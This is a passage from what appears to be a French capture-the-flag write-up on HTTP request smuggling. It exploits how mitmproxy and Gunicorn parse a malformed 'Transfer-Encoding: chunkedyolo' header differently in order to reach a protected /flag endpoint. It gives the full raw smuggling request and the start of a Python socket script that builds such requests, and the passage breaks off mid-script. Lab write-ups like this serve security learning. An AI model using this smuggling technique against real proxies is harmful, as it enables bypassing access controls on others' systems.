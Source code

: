 Mes premières tentatives ont consisté à envoyer ceci :

```http
POST /nawak HTTP/1.1\r\n
Host: 192.168.242.131\r\n
Transfer-Encoding: chunkedyolo\r\n
Content-Length: 4\r\n
Connection: keep-alive\r\n
\r\n
2d\r\n
GET /flag HTTP/1.1\r\n
Host: 192.168.242.131\r\n
\r\n
\r\n
0\r\n
\r\n
GET /yolo HTTP/1.1\r\n
Host: 192.168.242.131\r\n
\r\n
```

La valeur `chunkedyolo` est acceptée comme valide par *mitmproxy* qui va considérer la requête pour `/flag` comme étant le body de la requête `POST /nawak` (on a un bloc de `0x2d` soit 45 octets).

De sont côté, *Gunicorn* considère l'entête `Transfer-Encoding` comme étant invalide. Il se base donc sur le `Content-Length` de 4 octets. Pour lui ces données de 4 octets sont `2d\r\n` et la suite est donc une requête valide.

La dernière requête à `/yolo` force `mitmproxy` à voir deux requêtes en entrées. Sans cette entrée il risquerait de ne pas nous renvoyer la réponse de *Gunicorn* pour `/flag` (il s'arrêterait à la réponse pour `/nawak`).

Maintenant la dernière problématique que j'ai eu c'est le block vide qui casse notre requête `/flag`. La seule technique consiste alors à spécifier un `Content-Length` : même si on est sur une requête GET ça passe, le body correspondant au bloc vide sera ignoré.

J'ai écrit le code Python suivant :

```python
import socket                                                                                                          
from urllib.parse import urlparse                                                                                      
                                                                                                                                                                                                          
def te_cl(url: str, encoding: str="chunked"):                                                                          
    parts = urlparse(url)                                                                                              
    real_request = (                                                                                                   
        f"GET {parts.path}{'?' if parts.query else ''}{parts.query} HTTP/1.1\r\n"                                      
        f"Host: {parts.netloc}\r\n"                                                                                    
        "Content-Length: 7\r\n"                                                                                        
        "\r\n"                                                                                                         
    )                                                                                                                  
                                                                                                                       
    hex_size = hex(len(real_request))[2:]                                                                              
    # Chunked is {hex size}\r\n{data}\r\n                                                                              
    # and 0\r\n\r\n at the end                                                                                         
```